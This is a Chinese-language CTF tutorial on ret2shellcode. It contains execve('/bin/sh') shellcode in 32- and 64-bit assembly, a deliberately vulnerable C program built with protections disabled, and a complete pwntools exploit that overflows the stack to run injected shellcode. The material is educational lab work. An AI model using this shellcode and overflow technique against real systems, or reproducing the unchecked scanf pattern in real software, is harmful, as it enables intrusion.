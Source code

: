 ```yaml
---
title: "Ret2shellcode"
description: ""
lead: ""
date: 2023-03-30T20:20:50+08:00
lastmod: 2023-03-30T20:20:50+08:00
draft: false
images: []
menu:
  docs:
    parent: ""
    identifier: "ret2shellcode-0eaa929129ddb1f35b555655c3b77a72"
weight: 3
toc: true
---
```


## 0x01 介绍

ret2shellcode用到的知识也是系统调用，只不过和ret2syscall的区别在于后者是利用程序里已有的代码片段，而前者是需要自己写系统调用代码编译后注入到内存里，然后跳转到我们写入的地方来执行我们写入的代码，我们称这种代码为shellcode。这种题型的难点就在于shellcode编写，其他的和前面区别不大。最简单的shellcode即execve系统调用的写法为

1. 获取 `/bin/sh` 字符串地址
2. 将字符串地址赋值给第一个参数寄存器
3. 将第二三参数寄存器置零
4. 将系统调用号存入ax寄存器
5. 执行内陷指令

32位的汇编代码为

```c
push 0x0068732f
push 0x6e69622f    # "/bin/sh"字符串按照小端序压入到栈中
mov ebx, esp    # 当前栈顶即esp指向的是"/bin/sh"字符串，将esp的值即字符串指针赋值给ebx
xor ecx, ecx    # ecx置零
xor edx, edx    # edx置零
mov eax, 11    # 将execve系统调用号给eax
int 0x80    # 执行系统调用

```

64位的汇编代码为

```c
mov rax, 0x0068732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 59
syscall
```

值得注意的是64位不能直接将8个字节直接push进栈里，必须借助寄存器才可以将 `/bin/sh` 字符串压入栈中

将汇编编译为机器码后注入到内存里即可。在此之前需要保存注入shellcode的地方有可执行权限，最常见的情况就是没有加 `NX` 保护，然后可以注入到堆栈、data段bss段。还有的情况就是使用mmap申请了一个有可执行权限的内存，例如

```c
char *p = mmap(0x10000, 0x1000, 7, 0x22, -1, 0)
```

第一个参数是申请内存开始的地址，第二个参数是申请的内存大小，需要为内存分页的倍数（4KB的倍数），第三个参数是内存权限，可读为1，可写为2，可执行为4，通过或运算可以知道可读可写可执行的值为7，0x22是 `MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED` ，代表这是一个私有的映射（别的进程不可访问），还是一个匿名映射（不和任何文件相关联），而且映射区域映射到指定的起始地址，第四个参数是文件描述符，如果是匿名映射，填-1即可，最后一个参数是指定要映射文件的偏移量，可以填0不用管

这样我们在0x10000地址处就有了一个可以写入执行shellcode的内存了

还有一种情况是通过mprotect更改内存区域的权限，例如

```c
mprotect(0x10000, 0x1000, 7)
```

第一个参数是你要修改内存区域的地址，第二个参数是区域的长度，也需要是内存分页的倍数，最后一个参数是权限，和mmap的权限一样。

值得注意的是mmap和mprotect都是有系统调用存在的

我们以最简单的没加 `NX` 保护的情况来讲

```c
#include<stdio.h>
char buf[0x50];

void run() {
    char name[0x10];
    printf("name: ");
    scanf("%s", name);
    printf("content: ");
    scanf("%s", buf);
}

int main() {
    run();
    return 0;
}
// gcc ret2shellcode.c -o ret2shellcode -m32 -no-pie -fno-pic -fno-stack-protector -z execstack

```

这里第一次输入存在栈溢出，而第二次输入是输入到buf中，buf是未初始化数组，保存在了bss段中，由于没有加PIE保护，所以buf地址是已知的，那么我们就可以将shellcode注入到buf中，然后覆盖函数返回地址为buf地址，即可通过ret跳转执行我们的shellcode

![6cd8d6f25ac6a5d65b1c8586e1d8cf23](images/6cd8d6f25ac6a5d65b1c8586e1d8cf23.png)  

这样我们就可以写出最终的Exploit

```c
from pwn import*
context.log_level = 'debug'    # 设置为调试模式
context.arch = 'i386'    # 设置系统架构，要不然编译汇编代码会出错
o = process("./ret2shellcode")
# 第一次输入，栈溢出覆盖函数返回地址为buf地址
payload = b'a'*28 + p32(0x804a040)
o.sendline(payload)

# execve("/bin/sh", 0, 0)
shellcode = '''
push 0x0068732f
push 0x6e69622f
push esp
pop ebx
xor ecx, ecx
xor edx, edx
mov eax, 59
xor eax, 48    # 由于11是scanf的截断字符，所以通过先将eax赋值为59，再将eax和48异或eax即可得到11 
int 0x80
'''
payload = asm(shellcode)    # 编译汇编代码
o.sendline(payload)    # 将编译好的机器码写入到buf中

o.interactive()

```

![ef435571032bf634b5d9a6dafac27beb](images/ef435571032bf634b5d9a6dafac27beb.png)  

建议调试看看具体过程
